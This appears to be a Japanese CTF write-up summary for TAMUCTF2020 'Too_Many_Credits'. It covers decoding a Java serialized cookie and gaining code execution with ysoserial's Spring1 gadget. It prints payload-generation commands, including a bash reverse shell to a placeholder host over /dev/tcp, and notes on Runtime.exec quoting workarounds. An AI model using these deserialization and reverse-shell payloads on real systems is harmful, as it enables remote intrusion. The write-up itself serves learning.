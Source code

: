 ## ysoserial Spring / Runtime.exec() ReverseShell Payload with fixed-ysoserial (TAMUCTF2020 Too_Many_Credits)
https://github.com/abinpaul1/CTF-Writeups/blob/master/TAMUCTF%202020%20-%20Too_Many_Credits/README.md  
- **entrypoint**  
Cookieを見るとBase64エンコードされた値`H4sIAAAAAAAAAFvzloG1uIhBNzk/Vy+5KDUls6QYg87NT0nN0XMG85zzS/NKjDhvC4lwqrgzMTB6MbCWJeaUplYUMEAAEwAKMkv7UgAAAA==`がある。  
これをデコードすると意味不明になったため、ファイルに保存して`file`で確認すると`gzip`であることがわかり、それを以下のように解凍するとJavaのシリアライズされたデータであることがわかる。  
```txt
echo -n H4sIAAAAAAAAAFvzloG1uIhBNzk/Vy+5KDUls6QYg87NT0nN0XMG85zzS/NKjDhvC4lwqrgzMTB6MbCWJeaUplYUMEAAEwAKMkv7UgAAAA== | base64 -d | gzip -d >> java_ser_obj
```
SerializationDumperで確認すると、long型のvalueが`0x00 00 00 00 00 00 00 03`に設定されている。この値を大きな値(2億って書いてるけど)にセットしてCookieにセットすればFlagが降ってくるらしい。これが一つ目のFlag。  
  
ysoserialでペイロードをセットする。以下のBruteスクリプトが便利かも？  
https://github.com/NickstaDB/SerialBrute  
JavaのWebアプリなのでSpringをはじめに試して成功したらしい。  
成功したかどうかはエラーページに、`org.codehaus.groovy.runtime.ConvertedClosure`みたいな存在しないクラスの名前が表示されるかどうかでわかるらしい。成功していれば、`No message available`みたいなエラーになるらしい。  
```txt
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar Spring1 'ping -n 1 8.8.8.8' | gzip | base64 -w0
```
pingは実行できているが、`bash -i >& /dev/tcp/0.0.0.0/8065 0>&1`だとうまく行かなかったらしい。  
Javaの`Runtime.exec`でコマンドを実行するときには、`ls -al`みたいなコマンドは成功するが、Rever shell Paylaodのようなパイプ、リダイレクト、クオーテーションの入ったシェルスクリプトはうまく実行できないらしい。  
これを解決するために、`Runtime.getRuntime().exec(new String[] {"/bin/sh", "-c", "command"})`のように配列として渡してやれば複雑なPaylaodも実行できるらしくて、その改良版ysoserialが以下にある。  
https://github.com/pimps/ysoserial-modified  
以下で生成したPayloadでうまく行ったらしい。  
```txt
java -jar ysoserial-modified.jar Spring1 bash 'bash -i >& /dev/tcp/x.x.x.x/8065 0>&1' | gzip | base64 -w0
```
- **Runtime.exec()で実行できるコマンド**  
https://codewhitesec.blogspot.com/2015/03/sh-or-getting-shell-environment-from.html  
ここに`Runtime.exec`で複雑なシェルスクリプトを実行するための方法が書かれている。  
Paiza上で以下のようにして確認してみた。`exCmd("id")`とかでコマンドを実行する。  
```java
import java.util.*;
import java.io.*;

public class Main {
    public static void exCmd(String args) throws IOException{
	    Process p = Runtime.getRuntime().exec(args);
	    byte[] b = new byte[1];
	
	    while (p.getErrorStream().read(b) > 0)
		    System.out.write(b);
    	while (p.getInputStream().read(b) > 0)
	    	System.out.write(b);
        }

    public static void main(String[] args) throws Exception {
	    exCmd("uname -a");
    }
}
```
実験結果は以下のようになった。つまり、`exCmd("sh -c $@|sh . echo /bin/echo -e 'tab\trequired'");`のようにすれば実行できてるっぽい。  
```txt
exCmd("uname -a");
OK

exCmd("sh -c 'uname'");
OK
```